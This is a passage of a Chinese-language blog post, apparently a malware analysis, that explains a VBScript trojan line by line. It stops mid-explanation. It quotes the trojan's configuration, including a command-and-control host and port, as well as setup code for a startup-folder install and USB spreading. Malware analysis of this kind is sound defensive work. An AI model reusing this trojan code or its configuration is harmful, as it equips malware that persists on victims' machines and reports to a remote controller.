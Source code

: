 首先是用于配置的一些变量：

{% highlight vb %}
host = "spamer01.no-ip.org"
port = 3344
installdir = "%temp%"
lnkfile = true
lnkfolder = true
{% endhighlight %}

看样子是个木马。

设置了一些变量，这些分别是创建出来的WshShell对象，文件系统对象，xmlhttp对象：

{% highlight vb %}
dim shellobj
set shellobj = wscript.createobject("wscript.shell")
dim filesystemobj
set filesystemobj = createobject("scripting.filesystemobject")
dim httpobj
set httpobj = createobject("msxml2.xmlhttp")
{% endhighlight %}

又设置了一些变量，其中：

`installname`存储它自己的名字；  
`startup`存储开机启动文件夹的路径；  
`installdir`内容变为存储之前`installdir`对应的环境变量的真实路径（上面作者预设的是`%temp%`）；  
接着检查上步得到的`installdir`路径是否存在，不存在则采用默认的`%temp%`（属于二次确认）；  
`spliter`内容是`<|>`估计是用来解析数据；  
`sleep`定义了睡眠时间是5000毫秒。  
还有一些其他变量，但没有具体初始化，到后面用到再说。

{% highlight vb %}
installname = wscript.scriptname
startup = shellobj.specialfolders ("startup") & "\"
installdir = shellobj.expandenvironmentstrings(installdir) & "\"
if not filesystemobj.folderexists(installdir) then  installdir = shellobj.expandenvironmentstrings("%temp%") & "\"
spliter = "<" & "|" & ">"
sleep = 5000
dim response
dim cmd
dim param
info = ""
usbspreading = ""
startdate = ""
dim oneonce
{% endhighlight %}

万事俱备，它开始搞事情了（后面会直接引用上面的变量进行说明）。

首先是一句`on error resume next`，即当前语句执行出错时不要终止，而是执行下一条语句，在VBS里这条语句使用频率非常高。

接着调用`instance`函数（VB中函数可以带返回值，过程不可以）,其功能是：
